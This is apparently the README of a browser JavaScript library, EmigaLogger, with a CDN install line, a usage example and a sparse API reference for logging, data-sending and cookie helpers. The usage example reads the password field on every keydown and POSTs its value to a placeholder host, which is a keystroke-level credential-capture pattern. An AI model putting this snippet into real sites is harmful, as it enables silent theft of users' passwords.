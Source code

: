<p align="center">
  <img src="demo/demo.png" />
</p>



<h1 align="center">EmigaLogger for Browsers (v1.0.2)
  
<div align="center" style="display:none !important;text-align:center;">

![](https://img.shields.io/github/license/eminmuhammadi/EmigaLogger)
![](https://img.shields.io/github/size/eminmuhammadi/EmigaLogger/dist/EmigaLogger.min.js)

</div>
</h1>

<p align="center">
EmigaLogger combines several modules to send a valuable client-side information to the database
</p>

## Install
```html
<script type="text/javascript" src="https://cdn.jsdelivr.net/gh/eminmuhammadi/EmigaLogger@v1.0.2/dist/EmigaLogger.min.js"></script>
```

## Usage
```js
const Logger   = new EmigaLogger();
const Data     = new EmigaData();
const Selector = new EmigaSelector();

const Password = Selector.Select('input[name=password]');
Logger.Log(Password,'keydown',()=>{
    Data.Send('https://example.com',{
        method: 'POST',
        body: JSON.stringify({
           password: Selector.Value(Password)
        }) 
    });
});
```
For examples  [./demo/](demo)
- `button`  [./demo/button.html](demo/button.html)
- `example` [./demo/example.html](demo/example.html)
- `form`    [./demo/form.html](demo/form.html)
- `input`   [./demo/input.html](demo/input.html)

## API Reference
### new EmigaLogger()
#### EmigaLogger().Log(query,state,callback)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
| state     |      	|         	|             	|
| callback  |      	|         	|             	|

#### EmigaLogger.Call(callback)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| callback  |      	|         	|             	|

### new EmigaSelector()
#### EmigaSelector().Select(query)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|

#### EmigaSelector().Submit(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

#### EmigaSelector().Value(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

#### EmigaSelector().Text(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

### new EmigaData()
#### EmigaData().Serialize(form)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| form      |      	|         	|             	|

#### EmigaData().Send(url,options)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| url       |      	|         	|             	|
| options.method         |      	|    `GET`,`POST`,`PUT`,`HEAD`,`DELETE`,`PATCH`,`OPTIONS` |             	|
| options.mode           |      	|   `no-cors`, `cors`, `same-origin`  |             	|
| options.cache          |      	|  `Value`, `no-cache`, `reload`, `force-cache`, `only-if-cached` |             	|
| options.credentials    |      	| `include`, `same-origin`, `omit`        	|             	|
| options.headers        |      	|         	|             	|
| options.redirect       |      	|  `manual`, `follow`, `error` |             	|
| options.referrerPolicy |      	|  `no-referrer`, `client` |             	|
| options.body           |      	|         	|             	|

### new EmigaToken()
#### EmigaToken().uuid()
### new EmigaCookies()
#### EmigaCookies().Get(name)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|

#### EmigaCookies().Set(name,value,options)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
| value     |      	|         	|             	|
| options.expires   |      	|         	|             	|
| options.path      |      	|   `/` (default)  	|             	|
| options.domain    |      	|         	|             	|
| options.secure    |      	|   `true`, `false`      	|             	|
| options.sameSite  |      	|    `lax`, `strict`     	|             	|

#### EmigaCookie().Delete(name)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|

#### EmigaCookie().Cookie(name,value,days)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	| `X-UUID` (default)  |             	|
| value     |      	|           |             	|
| days     |      	|  `1`  (default)    |             	|

### new EmigaInit(event)
